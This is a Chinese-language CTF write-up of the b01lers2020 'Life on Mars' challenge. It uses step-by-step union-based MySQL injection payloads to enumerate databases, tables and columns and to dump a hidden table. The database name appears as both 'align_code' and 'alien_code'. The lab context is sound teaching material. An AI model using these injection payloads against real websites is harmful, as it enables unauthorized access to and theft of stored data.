# [b01lers2020]Life on Mars

## 知识点

`sql注入`

## 解题



然后点击超链接时`get`没有参数也没有路径，应该是用的`POST`传参，使用`burpsuite`抓包查看





页面变化时`search`参数和`_`参数均会变化，看看源码是不是`js`处理数据

在`life_on_mars.js`发现请求源码




看样子有可能是查`数据库`,尝试一下`mysql注入`

在`order by 2`时正常，在`order by 3`时返回异常


都能回显

```sql
?search=noachis_terra+union+select+1,2
```



### 查数据库

```sql
?search=noachis_terra+union+select+1,database()
```



发现当前数据库名为`aliens`

### 查表名

```sql
?search=noachis_terra+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()
```

表有`amazonis_planitia,arabia_terra,chryse_planitia,hellas_basin,hesperia_planum,noachis_terra,olympus_mons,tharsis_rise,utopia_basin`



发现似乎没有`flag`

重新看看所有数据库

### 查询所有数据库

```sql
?search=noachis_terra+union+select+1,group_concat(schema_name)+from+information_schema.schemata&{}&_=123
```



发现`align_code`数据库

### 查align_code数据库的表

```sql
?search=noachis_terra+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema='align_code'
```



表名为`code`

### 查列名

```sql
?search=noachis_terra+union+select+1,group_concat(column_name)+from+information_schema.columns+where+table_name="code" 
```



发现有两列`id,code`

### 查数据

```sql
?search=noachis_terra+union+select+1,group_concat(id,code)+from+alien_code.code
```

> 因查询的不是当前数据库，数据表前要加数据库名，否则找不到

